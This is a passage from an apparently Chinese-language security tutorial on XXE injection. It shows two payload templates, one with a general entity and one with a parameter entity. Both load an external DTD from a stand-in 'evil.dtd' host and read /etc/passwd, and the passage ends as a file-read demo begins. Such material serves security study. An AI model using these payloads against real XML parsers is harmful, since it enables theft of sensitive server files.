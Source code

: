 


**方式二：(一般实体)通过DTD外部实体声明引入外部DTD文档，再引入外部实体声明**



```
<?xml version="1.0"?>      
<!DOCTYPE a [      
       <!ENTITY b SYSTEM "http://mark4z5.com/evil.dtd">      
]>      
<a>&b;</a>       
#而http://mark4z5.com/evil.dtd内容为      
<!ENTITY b SYSTEM "file:///etc/passwd">
```




**方式三：(参数实体)通过DTD外部实体声明引入外部DTD文档，再引入外部实体声明**



```
<?xml version="1.0"?>      
<!DOCTYPE a [      
    <!ENTITY %b SYSTEM "http://mark4z5.com/evil.dtd">      
]>      
<a>%b;</a>       
#http://mark4z5.com/evil.dtd文件内容      
<!ENTITY b SYSTEM "file:///etc/passwd">
```




XXE是XML外部实体注入攻击，XML中可以通过调用实体来请求本地或者远程内容，和远程文件保护类似，会引发相关安全问题，例如敏感文件读取。



**支持的协议**



![](https://img-blog.csdnimg.cn/20200317160025754.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



其中php支持的协议会更多一些，但需要一定的扩展支持



![](https://img-blog.csdnimg.cn/2020031716011170.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



XXE漏洞演示利用(任意文件读取)

-----------------



以下是一个简单的XML代码POST请求示例，上述代码将交由服务器的XML处理器解析。代码被解释并有回显数据。



![](https://img-blog.csdnimg.cn/20200107113538872.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)
